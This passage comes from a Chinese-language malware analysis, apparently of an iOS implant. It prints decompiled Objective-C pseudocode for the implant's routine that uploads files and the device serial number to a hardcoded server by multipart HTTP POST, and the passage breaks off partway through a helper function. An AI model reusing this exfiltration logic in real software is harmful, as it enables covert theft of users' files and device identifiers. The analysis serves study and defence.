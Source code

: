 ```

  req = [NSMutableURLRequest requestWithURL:url]
  [req setHTTPMethod:@"POST"]
  [req setTimeoutInterval:120.0]

  content_type_str = [NSString stringWithFormat:
    "multipart/form-data; charset=utf-8;boundary=%@", @"9ff7172192b7"];
  [req setValue:content_type_str forHTTPHeaderField:@"Content-Type"]

  // this is set in [Service init], it's SerialNumber
  // from [Util SerialNumber]
  params_dict = @`{`@"sn": self-&gt;_sn`}`
  body_data = [self buildBodyDataWithParams:params_dict AndFiles:files]

  session = [NSURLSession sharedSession]
  NSURLSessionUploadTask* task = [session uploadTaskWithRequest:req
           fromData:body_data
           completionHandler:
             ^(NSData *data, NSURLResponse *response, NSError *error)`{`

                if (error) `{`
                  NSLog(@"postFile %@ Error: %@", _, _)
                `}` else `{`
                  NSLog(@"postFile success %@");
                `}`

                if (remove) `{`
                  // use NSFileManager to remove all the files
                `}`

                dispatch_semaphore_signal(sem)

             `}`]

  [task resume];

  dispatch_semaphore_wait(sem, -1);
```

用于上传内容的服务器的IP地址在植入代码文件中是硬编码的。此函数使用该地址发出HTTP POST 请求，将files 参数中提供的文件内容作为multipart / form-data payload传递，使用硬编码字符串“ 9ff7172192b7 ”分隔正文数据中的字段。

快速浏览一下buildBodyDataWithParams ：

```
[-Service buildBodyDataWithParams:params AndFiles:files] `{`
  data = [NSMutableData data]
  for (key in params) `{`
    str = [NSMutableString string]
    // the boundary string
    [str appendFormat:@"--%@rn", "9ff7172192b7"] ;
    [str appendFormat:
      @"Content-Disposition: form-data; name="%@"rnrn", key];

    val = [params objectForKeyedSubscript:key];
    [str appendFormat:@"%@rn", val];

    encoded = [str dataUsingEncoding:NSUTF8StringEncoding];
    [data appendData:encoded]
  `}`

  for (file in files) `{`
    str = [NSMutableString string];
    // the boundary string
```
